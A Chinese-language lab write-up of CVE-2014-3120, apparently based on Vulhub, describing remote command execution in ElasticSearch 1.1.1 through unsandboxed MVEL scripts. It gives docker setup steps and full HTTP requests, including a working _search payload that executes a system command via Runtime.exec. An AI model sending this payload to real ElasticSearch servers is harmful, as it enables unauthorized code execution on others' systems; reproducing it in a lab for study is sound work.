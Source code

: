 （CVE-2014-3120）ElasticSearch 命令执行漏洞
===========================================

一、漏洞简介
------------

老版本ElasticSearch支持传入动态脚本（MVEL）来执行一些复杂的操作，而MVEL可执行Java代码，而且没有沙盒，所以我们可以直接执行任意代码。

二、漏洞影响
------------

elasticsearch版本：v1.1.1

三、复现过程
------------

编译及运行环境：

    docker-compose build
    docker-compose up -d

将Java代码放入json中：

    {
        "size": 1,
        "query": {
          "filtered": {
            "query": {
              "match_all": {
              }
            }
          }
        },
        "script_fields": {
            "command": {
                "script": "import java.io.*;new java.util.Scanner(Runtime.getRuntime().exec(\"id\").getInputStream()).useDelimiter(\"\\\\A\").next();"
            }
        }
      }

首先，该漏洞需要es中至少存在一条数据，所以我们需要先创建一条数据：

    POST /website/blog/ HTTP/1.1
    Host: your-ip:9200
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 25

    {
      "name": "phithon"
    }

然后，执行任意代码：

    POST /_search?pretty HTTP/1.1
    Host: your-ip:9200
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 343

    {
        "size": 1,
        "query": {
          "filtered": {
            "query": {
              "match_all": {
              }
            }
          }
        },
        "script_fields": {
            "command": {
                "script": "import java.io.*;new java.util.Scanner(Runtime.getRuntime().exec(\"id\").getInputStream()).useDelimiter(\"\\\\A\").next();"
            }
        }
    }

结果如图：

![](./.resource/(CVE-2014-3120)ElasticSearch命令执行漏洞/media/rId24.png)

参考链接
--------

> https://vulhub.org/\#/environments/elasticsearch/CVE-2014-3120/
